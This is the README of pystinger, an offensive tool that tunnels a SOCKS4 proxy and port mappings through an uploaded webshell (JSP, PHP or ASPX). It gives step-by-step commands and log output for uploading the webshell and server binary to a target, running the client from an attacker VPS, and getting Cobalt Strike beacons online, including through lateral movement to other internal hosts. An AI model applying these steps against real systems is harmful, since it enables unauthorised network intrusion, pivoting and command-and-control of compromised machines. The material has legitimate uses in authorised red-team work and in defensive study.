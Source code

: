 # pystinger

English | [简体中文](./readme_cn.md) 

Pystinger implements **SOCK4 proxy** and **port mapping** through webshell.

It can be directly used by metasploit-framework, viper, cobalt strike for session online.

Pystinger is developed in python, and currently supports three proxy scripts: php, jsp(x) and aspx.


# Usage
> Suppose the domain name of the server is[ http://example.com :8080](http://192.168.3.11:8080) The intranet IPAddress of the server intranet is 192.168.3.11

## SOCK4 Proxy


* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```stinger_server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/stinger_server.exe```to start pystinger-server
> Don't run ```D:/xxx/singer_server.exe``` directly,it will cause TCP disconnection
* Run ```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Now you have started a *socks4a proxy* on VPS ```127.0.0.1:60000``` for intranet of ```example.com```.
* Now the target server(```example.com```) ```127.0.0.1:60020``` has been mapped to the VPS ``` 127.0.0.1:60020```

## cobaltstrike`s beacon online for single target

* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```stinger_server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/stinger_server.exe```to start pystinger-server
> Don't run ```D:/xxx/singer_server.exe``` directly,it will cause TCP disconnection
* Run ```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Add listener on cobaltstrike,Listener port is ```60020``` (Handler/LISTEN port in ```RAT CONFIG``` of output ),listener address is ```127.0.0.1```
* Generate payload,upload to the target and run.

## cobaltstrike`s beacon online for multi targets

* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```stinger_server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/stinger_server.exe  192.168.3.11```to start pystinger-server (192.168.3.11 is intranet ipaddress of the target)
> 192.168.3.11 can change to 0.0.0.0
* Run ```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Add listener on cobaltstrike,Listener port is ```60020``` (Handler/LISTEN port in ```RAT CONFIG``` of output ),listener address is ```192.168.3.11```
* Generate payload,upload to the target and run.
* When lateral movement to other hosts, you can point the payload to 192.168.3.11:60020 to make beacon online

## Custom header and proxy
* If the webshell needs to configure cookie or authorization, the request header can be configured through the -- header parameter
```--header "Authorization: XXXXXX,Cookie: XXXXX"```

* If the webshell needs to be accessed by proxy, you can set the proxy through -- proxy
```--proxy "socks5:127.0.0.1:1081"```

# Related tools
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# Tested
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# Update log
**2.0**
Update time: 2019-09-29
* Socks4 proxy service moves to client

**2.1**
Update time: 2020-01-07
* Support cobaltstrike online (port mapping)

The development is supported by the software from jetbrains.</br>
https://www.jetbrains.com/?from=pystinger

<a href="https://www.jetbrains.com/?from=pystinger" target="_blank">
  <img src="jetbrains.svg">
</a>
